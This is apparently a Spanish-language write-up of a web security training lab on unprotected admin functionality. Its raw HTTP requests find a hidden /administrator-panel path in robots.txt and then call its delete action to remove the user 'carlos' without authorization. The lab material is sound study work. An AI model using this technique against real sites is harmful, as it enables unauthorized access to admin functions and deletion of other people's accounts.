 # 👮 Laboratorio: Funcionalidad de administración desprotegida

**Control de acceso**

Los controles de acceso están diseñados para evitar que los usuarios interactúen con datos o funciones para las que no tienen los permisos pertinentes. Debido al obvio impacto en la seguridad, los controles de acceso rotos son errores críticos en sí mismos. A menudo también brindan acceso a más superficie de ataque, lo que podría contener vulnerabilidades adicionales.

```python
// Some code

PANEL ADMINISTRADOR DESPROTEGIDO:




REQUEST:


GET /robots.txt HTTP/2
Host: 0ae2004104f3234a803c67f80042005a.web-security-academy.net
Cookie: session=nmsvLGTaLJjX2egoqoFSsva2E47Y8a46
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae2004104f3234a803c67f80042005a.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9



RESPONSE:

HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 45

User-agent: *
Disallow: /administrator-panel












ELIMINAR CARLOS:

REQUEST:


POST /administrator-panel/delete?username=carlos HTTP/2
Host: 0ae2004104f3234a803c67f80042005a.web-security-academy.net
Cookie: session=nmsvLGTaLJjX2egoqoFSsva2E47Y8a46
Content-Length: 69
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0ae2004104f3234a803c67f80042005a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae2004104f3234a803c67f80042005a.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9

csrf=zqR6YjdExoEtmtpKZuVf9YQFQQpOqI4P&username=carlos&password=carlos


/administrator-panel/delete?username=carlos




RESPONSE OK REDIRIGE:


TTP/2 302 Found
Location: /administrator-panel
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```
